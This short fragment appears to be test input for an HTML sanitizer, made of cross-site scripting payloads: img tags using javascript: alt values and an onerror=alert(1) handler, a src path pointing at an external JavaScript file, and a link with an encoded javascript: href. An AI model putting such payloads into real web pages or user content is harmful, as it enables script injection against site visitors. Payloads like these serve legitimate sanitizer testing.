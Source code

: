 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<a href="\"javascript%3aalert(1)">Click Here</a>
<img src="`xx:xx`"onerror=alert(1)>

](()
